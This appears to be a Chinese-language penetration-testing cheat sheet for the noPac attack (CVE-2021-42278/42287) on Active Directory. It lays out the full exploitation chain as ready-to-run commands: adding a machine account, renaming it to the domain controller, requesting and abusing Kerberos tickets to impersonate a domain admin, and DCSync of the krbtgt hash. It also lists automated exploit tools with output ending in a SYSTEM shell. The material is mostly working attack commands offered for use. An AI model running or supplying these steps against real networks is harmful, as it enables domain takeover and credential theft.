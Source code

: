 	需要MachineAccountQuota > 0
 #### 检查账户的MachineAccountQuota
  	>crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
	>StandIn.exe --object ms-DS-MachineAccountQuota=*
 #### 检查DC是否存在漏洞
  	>crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
 #### EXPLOIT
 ##### 添加计算机账户
  	impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
	
	powermad@windows> . .\Powermad.ps1
	powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
	powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose
	
	sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
 ##### 清除被控机器账户的servicePrincipalName 属性
  	impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

	powershell@windows> . .\Powerview.ps1
	powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
 ##### (CVE-2021-42278) 将受控机器帐户 sAMAccountName 更改为域控制器的名称，不带尾随 $
  	impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
 ##### 为被控机器申请TGT
  	impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

	cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
 ##### 充值被控账户的sAMAccountName 到旧值
  	impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
 ##### (CVE-2021-42287) 通过出示之前获得的 TGT 向 S4U2self 请求服务票证
  	impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

	cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
 ##### DCSync
	DCSync: KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
 #### 自动exploit
  	https://github.com/cube0x0/noPac
	>noPac.exe scan -domain htb.local -user user -pass 'password123'
	>noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
	>noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
	https://github.com/WazeHell/sam-the-admin
	>python3 sam_the_admin.py "caltech/alice.cassie:Lee@tPass" -dc-ip 192.168.1.110 -shell
	[*] Selected Target dc.caltech.white                                              
	[*] Total Domain Admins 11                                                        
	[*] will try to impersonat gaylene.dreddy                                         
	[*] Current ms-DS-MachineAccountQuota = 10                                        
	[*] Adding Computer Account "SAMTHEADMIN-11$"                                     
	[*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
	[*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
	[*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
	[*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
	[*] Saving ticket in dc.ccache                                                    
	[*] Resting the machine account to SAMTHEADMIN-11$                                
	[*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
	[*] Using TGT from cache                                                          
	[*] Impersonating gaylene.dreddy                                                  
	[*]     Requesting S4U2self                                                       
	[*] Saving ticket in gaylene.dreddy.ccache                                        
	[!] Launching semi-interactive shell - Careful what you execute                   
	C:\Windows\system32>whoami                                                        
	nt authority\system 
	https://github.com/ly4k/Pachine
	>python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
	>python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
	>export KRB5CCNAME=$PWD/administrator@predator.local.ccache
	>impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'